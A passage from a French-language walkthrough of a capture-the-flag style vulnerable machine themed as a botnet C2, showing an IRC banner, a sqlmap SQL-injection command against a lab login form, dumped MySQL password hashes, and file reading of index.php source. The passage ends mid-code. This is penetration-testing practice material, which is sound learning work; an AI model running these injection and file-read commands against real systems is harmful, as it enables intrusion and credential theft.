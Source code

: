 Sur le port 6667 on trouve un serveur IRC (ircd-irc2) avec l'invite suivante :  

```plain
* There are 2 users and 0 services on 1 servers
* 16 :channels formed
* I have 2 users, 0 services and 0 servers
* 2 2 :Current local users 2, max 2
* 2 2 :Current global users 2, max 2
* - irc.localhost Message of the Day - 
* - 6/7/2013 17:35
* - This is the "loser crew" botnet C2.
* - We are super 31337 and will p@wn anyone snooping around!
* - WE WILL DDoS YOU OFF THE PLANET!  DON'T MAKE FUN OF OUR MASKS!
* End of MOTD command.
```

Sur le port 80 se trouve un site web minimaliste avec un script index.php qui prend un paramètre *page*.  

Il contient un formulaire de connexion (username et password) que j'attaque avec SQLmap :  

```bash
python sqlmap.py -u http://192.168.1.53/index.php?page=login --data="user=test&password=test" -p user --dbms=mysql --current-user
```

J'obtiens en vrac les informations suivantes (en changeant le dernier paramètre) :  

```plain
web server operating system: Linux Debian 6.0 (squeeze)
web application technology: PHP 5.3.3, Apache 2.2.16
back-end DBMS: MySQL >= 5.0.0
[19:07:45] [INFO] fetching current user
[19:07:45] [INFO] retrieved: root@localhost
current user:    'root@localhost'
current database:    'user_db'

debian-sys-maint:*1DA3475E6E4482C9931E9FE23FF02A543E375E08
root:*0AC55189DF8ACE402E133C48FB045DC09E81B516
root:*1DA3475E6E4482C9931E9FE23FF02A543E375E08

Database: user_db
Table: users
[1 entry]
+------------------------------+--------+
| pass                         | user   |
+------------------------------+--------+
| totally not helpful password | root   |
+------------------------------+--------+
```

Avec *--file-read=/var/www/index.php* je récupère le contenu du index.php :  

```php
<?php
if(!isset($_GET['page']))
{
        header("Location: /index.php?page=main");
        exit();
}
?>
<html>
<head>
</head>
<body>
<a href="/index.php?page=main">Main</a><br/>
<a href="/index.php?page=login">Login</a><br/>
<a href="/index.php?page=contact.php">Contact Us</a><br/>
<?php
```
